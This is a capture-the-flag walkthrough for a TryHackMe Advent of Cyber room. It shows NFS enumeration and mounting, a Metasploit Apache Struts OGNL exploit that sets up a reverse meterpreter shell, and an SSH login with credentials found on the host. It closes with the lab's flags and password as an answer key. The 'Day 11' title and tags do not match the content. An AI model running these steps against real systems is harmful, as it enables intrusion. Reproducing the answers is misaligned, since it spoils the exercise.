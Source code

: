 # [Day 11] Elf Applications Writeup
### Tags: `#FTP #NFS #MySQL`
#### [Machine Link](https://tryhackme.com/room/25daysofchristmas)

<img src='imgs/advent2019day11.png' width='200' align='center'>

## Walkthrough

1.) Lets ping the machine to see if it is up and running.

```bash
ping 10.10.244.242
```

![](imgs/ping.png)

2.) Lets run a nmap scan on the machine to enumerate all services on open ports.

```bash
nmap -A 10.10.244.242
```

![](imgs/nmap.png)

3.) Lets first take a look at the NFS service running on port 2049. We can enumerate all the shares using the showmount command.

```bash
showmount -e 10.10.244.242
```

![](imgs/showmount.png)

4.) We can mount the share to our local system by using the mount command and at that point we can browse the share.

```bash
sudo mount -t nfs 10.10.244.242:/opt /tmp/opt
```

![](imgs/mount.png)

5.) Using the CLI tool searchsploit, which is a local version of the exploitDB maintained by OffSec. We can see the exploits listed for Apache Struts.

![](imgs/searchsploit.png)

6.) Using Metasploit, lets execute the struts2_content_type_ognl exploit.

```bash
msfconsole

search struts2

use 6

show options
```

![](imgs/usemsf.png)

7.) When using Metasploit, we need to set all the required options before trying to execute the exploit on the machine.

```bash
set RHOSTS 10.10.173.247

Set RPORT 80

set TARGETURI /showcase.action

set LHOST 10.13.37.142
```

![](imgs/setoptions.png)

8.) With all the required fields set within Metasploit, we can execute the exploit by running the command run.

![](imgs/run.png)

9.) Now that we have a meterpreter shell, we can drop into a standard shell by running the command shell. What we are trying to do is run a bash command to find any files on the machine that have flag1 within its name.

```bash
shell

find / 2>dev/null | grep -i "flag1"
```

![](imgs/flag1.png)

10.) Lets take a look at the / directory. Do you notice the .dockerenv file. This is a sign that we are currently isolated inside a active containter. Another sign is to run the ps aux command and take note of the number of processes (less processes means most likely a docker container).

![](imgs/docker.png)

11.) Now taking a look at the santa home directory, we see a file named ssh-creds.txt. 

![](imgs/sshcreds.png)

12.) Using the username:password combo found in the ssh-creds.txt file and with a open port 22 (ssh service), we can bypass the docker container and login directly to the machine using the santa user.

![](imgs/sshlogin.png)

13.) Checking the home directory for santa, we see two files naughty_list.txt and nice_list.txt.


```bash
cat -n naughty_list.txt
or
vim naughty_list.txt
:wq

cat -n nice_list.txt
or
vim nice_list.txt
:wq
```

## Tasks
| Task | Question | Answer |
| --- | --- | --- |
| Task #1 | Compromise the web server using Metasploit. What is flag1? | THM{3ad96bb13ec963a5ca4cb99302b37e12} |
| Task #2 | Now you've compromised the web server, get onto the main system. What is Santa's SSH password? | rudolphrednosedreindeer |
| Task #3 | Who is on line 148 of the naughty list? | Melisa Vanhoose |
| Task #4 | Who is on line 52 of the nice list? | Lindsey Gaffney |








